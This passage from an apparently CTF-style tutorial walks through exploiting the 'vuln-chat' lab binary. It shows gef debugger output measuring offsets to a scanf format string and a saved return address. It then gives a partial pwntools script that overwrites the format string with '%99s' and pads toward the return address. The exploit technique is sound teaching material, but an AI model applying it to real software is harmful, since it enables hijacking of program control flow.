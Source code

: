 ```
Breakpoint 1, 0x08048639 in main ()
gef➤  search-pattern 75395128
[+] Searching '75395128' in memory
[+] In '[heap]'(0x804a000-0x806c000), permission=rw-
  0x804a160 - 0x804a168  →   "75395128"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd03b - 0xffffd043  →   "75395128"
gef➤  search-pattern %30s
[+] Searching '%30s' in memory
[+] In '/Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat'(0x8048000-0x8049000), permission=r-x
  0x80485c1 - 0x80485c5  →   "%30s[...]"
[+] In '/Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat'(0x8049000-0x804a000), permission=rw-
  0x80495c1 - 0x80495c5  →   "%30s[...]"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd063 - 0xffffd067  →   "%30s"
gef➤  x/14x 0xffffd03b
0xffffd03b:    0x39333537    0x38323135    0xffd10400    0xffd10cff
0xffffd04b:    0xe076a5ff    0x33393531    0x38323735    0x04866b00
0xffffd05b:    0x00000008    0xfaf00000    0x73303325    0x00000000
0xffffd06b:    0xdefe8100    0x000001f7
gef➤  i f
Stack level 0, frame at 0xffffd070:
 eip = 0x8048639 in main; saved eip = 0xf7defe81
 Arglist at 0xffffd068, args:
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebp at 0xffffd068, eip at 0xffffd06c
```

So we can see that the format string is stored at `0xffffd063`, which is `20` bytes away from our name at `0xffffd04f`. Our second input begins at `0xffffd03b` which is `0x31` bytes away from the return address at `0xffffd06c`. Also one thing, the memory layout here probably looks a bit weird. The reason for this is `x86` is designed around `4` byte values (although it can handle a lot of different sizes for value types), so most addresses (with the except of variable length ones) are aligned to either `0x0`, `0x4`, `0x8`, or `0xc`. However our char array (which can be a wide array of values) starts at `0xffffd03b`, so it messes up the alignment when we view the memory using it as a reference.

Putting it all together, we get the following exploit:
```
from pwn import *

# Establish the target process
target = process('./vuln-chat')

# Print the initial text
print target.recvuntil("username: ")

# Form the first payload to overwrite the scanf format string
payload0 = ""
payload0 += "0"*0x14 # Fill up space to format string
payload0 += "%99s" # Overwrite it with "%99s"

# Send the payload with a newline character
target.sendline(payload0)

# Print the text up to the second scanf call
print target.recvuntil("I know I can trust you?")

# From the second payload to overwrite the return address
payload1 = ""
payload1 += "1"*0x31 # Filler space to return address
```